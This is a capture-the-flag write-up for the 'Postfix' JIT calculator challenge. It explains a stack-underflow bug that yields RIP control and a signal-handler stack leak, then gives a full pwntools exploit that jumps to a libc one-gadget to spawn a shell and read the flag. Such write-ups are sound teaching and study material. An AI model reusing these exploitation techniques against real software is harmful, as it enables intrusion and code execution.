# Postfix

## Description

>Maths is hard so I made this super-fast JIT-powered calculator. You can even define funcions! It has many security features, I bet it's super safe!
>
>*Note: A VM is provided to help you replicate the remote setup. Keep in mind that this is **NOT** a kernel/microarch pwn!*

## Analysis

### Checksec
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```
As it can be seen, the binary has all the common mitigations enabled.

### Seccomp
```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0001: 0x25 0x00 0x01 0x00006000  if (A <= 0x6000) goto 0003
 0002: 0x25 0x00 0x01 0x00007000  if (A <= 0x7000) goto 0004
 0003: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0004: 0x06 0x00 0x00 0x00000000  return KILL
```

A simple seccomp filter is also present and it forbids syscalls coming from IPs in the range 0x600000000000 - 0x700000000000.

### Reversing

The binary allows you to define functions with up to one variable in postfix notation. The functions, after being parsed, are JIT-compiled in native x86 code. They can then be called, eventually providing the value of the variable.

Most of the logic happens during the parsing and compilation of the postfix expression.
This starts with the `parse(expr_stack_t *out_stack, char *input, char **parsed)` function: the string is split into tokens, which then get pushed onto an `expr_stack_t` structure as a pair of value and type. 

When an operator is pushed (through the `push_op` function) it gets optimized away if the two previous tokens are constants, since the result can be computed at parse-time as it does not depend on other operations or variables.

The `expr_stack_t` is then passed to `jit_expr`, which does the actual translation to x86 code. 
A prologue which zeroes all registers and migrates to a separate stack (`jit_stk`) is generated and it looks like this:
```
xor eax, eax ; xor all regs except from rdi and rsp
xor ebx, ebx
...
wrgsbase rsp ; save rsp for later
mov rsp, jit_stk ; migrate to jit_stk
call actual_jit_code ; call jit code
rdgsbase rsp ; restore rsp
ret
actual_jit_code:
...
```
The stack is then iterated:
- known-values become push operations through the `opt_push` function, which emits different instructions depending on the size of the value
- variables become `push rdi` instructions (as the variable is passed through `rdi`)
- operators are translated roughly to `pop rbx; pop rax; add/sub/imul/idiv ...; push rax`

The `opt_push` function also applies constant-blinding when a 32-bit or 64-bit constant is pushed as a mitigation against JIT-sprays. This is done by using `val ^ rnd` where `val` is the actual value and `rnd` is a random value which gets generated by the function. A xor operation is then emitted to decrypt this constant at runtime and push it onto the stack.
The generated code might look like this:
```
; opt_push(0xAAAAAAAA)

mov rax, 0xB00CE592  ; = 0xAAAAAAAA ^ 0x1AA64F38
xor rax, 0x1AA64F38      
push rax             ; = 0xAAAAAAAA    
```

The final result is then popped through `pop rax`.

As a final note, the JIT code pages are allocated through `jit_init` at random offsets in the region 0x600000000000-0x700000000000, which is the same range forbidden by the seccomp filter. The JIT stack is allocated by `jit_stk_init` at a random offset in the region 0x300000000000-0x400000000000.

## Vulnerabilities

### Relative RIP control inside the JIT code

The main vulnerability is in the `push_op` function: it should require two numbers on the stack to appply the operator, but the only check is for the stack containing at least two elements, which might not be both numbers. This can allow an attacker to perform a stack underflow, which, using the JIT operations, makes it possible to add arbitrary offsets to the return address of the JIT prologue. 

An example might be `0 x + + 0`, which will add `x` to the return address. The final constant is required as the code inside `parse` keeps a variable named `count` which keeps track of the amount of elements on the stack at runtime and is checked at the end of the function. If this value is different from 1 (which should be the element returned by the function), the `parse` function will fail.

### Information leak through the signal handler stack frame

When a division by zero occurs during the JIT execution, a SIGFPE signal is raised, and a registered sighandler is called. The handler will exit gracefully from the JIT area (through a siglongjmp) and inform the user that an error occurred without crashing the program.  Since the sighandler isn't registered with the `SA_ONSTACK` flag, when it gets invoked during JIT execution it will just use the JIT stack, spilling its stackframe onto it. This can be used to leak various information such as a libc address. It must be kept in mind that the signal handler stack frame has a variable size, since it depends on the size of the `XSAVE` area, which depends on the enabled CPU features (and that's why the challenge was run under QEMU). This should not be a problem since the binary prints CPUID information at the start, including the maximum and actual size of this area.

## Exploitation

We can first trigger the leak by doing a division by zero. To get it as close as possible we can abuse the stack underflow caused by the wrong check in `push_op`.
A payload such as `0 x * * * * / 0 0 0 0` should do the trick. We can play with the number of `*` and `0` (which must anyway be equal to match the `count == 1` constaint) to lower the signal handler stack frame.

Since we can't really pop values from the stack arbitrarily, we'll have to abuse the relative rip control to try and move the stack pointer near a libc leak. We can then add a relative offset to this leak to get a one-gadget, which will give us a shell when the code returns. We can abuse the fact that 8-bit and 16-bit values are not blinded to try and encode instructions. Furthermore, 16-bit values still use a 32-bit `push` instruction, causing them to be sign-extended. I found the `enter` instruction to be particularly useful, since it allows us to move the stack pointer and we can encode it by pushing `0xXXC8` where XX is the amount of bytes which will be added to the stack pointer. As long as XX is less than `0x7F`, the value will be zero-extended and cause the encoding of a `enter XX, 0` instruction, which will decrement the stack pointer by `XX`.

Using this we can reach a libc address and change it to a one-gadget. We can then push one value (the JIT will need to pop a return value) and at the `ret` instruction we'll get a shell. A payload for this might be `x 0 * x - {rsp_offset << 8 | 0xc8} - {SPRAYED_INSN_OFFSET} + + {rsp_offset << 8 | 0xc8} x + + 0`, where `x` is the value to be added to the libc pointer.

## Exploit

```
#!/usr/bin/env python3

from pwn import *

HOST = args.HOST if args.HOST else "localhost"
PORT = args.PORT if args.PORT else 1337

def conn():
    r = remote(HOST, PORT)
    return r

def create_func(func_id, expr):
    r.sendafter(b"> ", b"c\n")
    r.sendafter(b"id: ", func_id.encode() + b"\n")
    r.sendafter(b">>> ", expr.encode() + b"\n")

def execute_func(func_id, arg, get_res=False):
    r.sendafter(b"> ", b"x\n")
    r.sendafter(b"id: ", func_id.encode() + b"\n")
    r.sendafter(b": ", arg.encode() + b"\n")
    if get_res:
        r.recvuntil("result: ")
        return int(r.recvline().decode().strip())

def main():
    global r
    r = conn()

    r.recvuntil(b"supported features: " + context.newline)
    r.recvlines(4)
    xsave_size = int(r.recvline().split(b" ")[1], 16)
    log.info(f"xsave_max_size: {hex(xsave_size)}")

    # 0xebcf8 execve("/bin/sh", rsi, rdx)
    # constraints:
    #     address rbp-0x78 is writable
    #     [rsi] == NULL || rsi == NULL
    #     [rdx] == NULL || rdx == NULL

    CODE_OFFSET = 49

    trigger_sighandler = "0 x " + ("* " * (xsave_size//8 - 7)) + "/ " + ("0 " * (xsave_size//8 - 7))
    payload = f"x 0 * x - {0x60c8} - {CODE_OFFSET} + + {0x60c8} x + + 0"

    create_func("DIV0", trigger_sighandler)
    execute_func("DIV0", "0")

    # <__execvpe+1144>:	lea    rdi,[rip+0xec999]
    one_gadget_addr = 0xebcf8
    log.info(f"one_gadget_addr: {hex(one_gadget_addr)}")

    # <_IO_2_1_stdin_+131>:	0x00000000
    sighandler_leak_addr = 0x219b23
    log.info(f"sighandler_leak_addr: {hex(sighandler_leak_addr)}")

    offset = sighandler_leak_addr - one_gadget_addr
    log.info(f"offset: {hex(offset)}")

    create_func("PWN", payload)
    execute_func("PWN", str(-offset))

    r.sendline(b"cat flag.txt")
    log.info(r.recvregex(b"snakeCTF{.*}", timeout=5).strip().split(context.newline)[-1].decode())
    r.close()

if __name__ == "__main__":
    main()
```